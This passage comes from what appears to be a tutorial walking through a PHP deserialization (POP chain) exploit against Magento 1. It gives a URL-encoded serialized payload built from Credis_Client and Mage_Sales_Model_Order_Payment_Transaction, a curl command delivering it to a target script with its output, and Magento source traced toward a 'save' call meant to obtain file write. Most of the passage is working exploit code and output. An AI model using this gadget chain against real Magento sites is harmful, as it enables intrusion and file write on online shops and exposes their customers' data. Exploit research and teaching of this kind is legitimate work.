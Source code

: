 Execute it again to get the payload

```
$ php gadget-builder.php
O%3A13%3A%22Credis_Client%22%3A2%3A%7Bs%3A8%3A%22%00%2A%00redis%22%3BO%3A42%3A%22Mage_Sales_Model_Order_Payment_Transaction%22%3A0%3A%7B%7Ds%3A12%3A%22%00%2A%00connected%22%3Bb%3A1%3B%7D
```

Before running the curl, let's add some debug code to `Mage_Sales_Model_Order_Payment_Transaction:close()` as a basic sanity check.

```php?start_inline=1
/**
 * Close this transaction
 * @param bool $shouldSave
 * @return Mage_Sales_Model_Order_Payment_Transaction
 * @throws Mage_Core_Exception
 */
public function close($shouldSave = true)
{
    echo  __METHOD__ . PHP_EOL;
    if (!$this->_isFailsafe) {
        $this->_verifyThisTransactionExists();
    }
```

And run the curl with the new payload and here's what you should see... 

```
$ curl http://example.com/target.php\?payload\=O%3A13%3A%22Credis_Client%22%3A2%3A%7Bs%3A8%3A%22%00%2A%00redis%22%3BO%3A42%3A%22Mage_Sales_Model_Order_Payment_Transaction%22%3A0%3A%7B%7Ds%3A12%3A%22%00%2A%00connected%22%3Bb%3A1%3B%7D
Credis_ClientMage_Sales_Model_Order_Payment_Transaction::close
```

### Calling `save` on `_getResource()`

The next step in the POP chain is to abuse the `save` call on the `resource` to obtain file write. Let's take a look at `Mage_Sales_Model_Order_Payment_Transaction::close` to see how we can get there...

```php?start_inline=1
public function close($shouldSave = true)
{
    if (!$this->_isFailsafe) {
        $this->_verifyThisTransactionExists();
    }
    if (1 == $this->getIsClosed() && $this->_isFailsafe) {
        Mage::throwException(Mage::helper('sales')->__('The transaction "%s" (%s) is already closed.', $this->getTxnId(), $this->getTxnType()));
    }
    $this->setIsClosed(1);
    if ($shouldSave) {
        $this->save();
    }
```
